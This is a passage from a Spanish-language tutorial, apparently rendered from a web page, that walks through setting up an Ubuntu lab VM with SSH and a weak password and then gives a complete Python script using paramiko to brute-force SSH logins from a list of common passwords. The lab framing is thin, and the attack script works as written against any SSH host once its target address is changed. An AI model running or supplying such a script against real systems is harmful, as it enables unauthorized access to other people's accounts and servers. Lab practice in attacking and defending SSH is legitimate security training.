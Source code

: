 ```bash
pip install paramiko
```

---

#### 2. 🧪 Crear un entorno de laboratorio

Puedes usar:

- 🖥️ Una **máquina virtual con Ubuntu Server**
- IP local: `192.168.1.10`
- Usuario: `prueba`
- Contraseña: `123456` (puedes cambiarlo)
- Asegúrate de tener **SSH habilitado** en esa VM:

```bash
sudo apt install openssh-server
sudo systemctl start ssh
```

---

### 🐍 Script en Python para Fuerza Bruta SSH

#### ✏️ Paso 1: Crea un archivo `brute_ssh.py`

```python
import paramiko
import socket

# Datos del objetivo
host = "192.168.1.10"
port = 22
usuario = "prueba"

# Lista de contraseñas para probar
passwords = [
    "123456", "admin", "password", "prueba123", "root", "qwerty"
]

def intentar_conexion(host, port, user, password):
    cliente = paramiko.SSHClient()
    cliente.set_missing_host_key_policy(paramiko.AutoAddPolicy())

    try:
        cliente.connect(hostname=host, port=port, username=user, password=password, timeout=3)
        print(f"[✅] ¡Contraseña encontrada!: {password}")
        cliente.close()
        return True
    except paramiko.AuthenticationException:
        print(f"[✗] Contraseña incorrecta: {password}")
    except socket.timeout:
        print("[!] Tiempo de espera agotado al intentar conectar")
    except Exception as e:
        print(f"[!] Error inesperado: {e}")
    return False

# Ejecutar ataque
for password in passwords:
    if intentar_conexion(host, port, usuario, password):
        break
```

---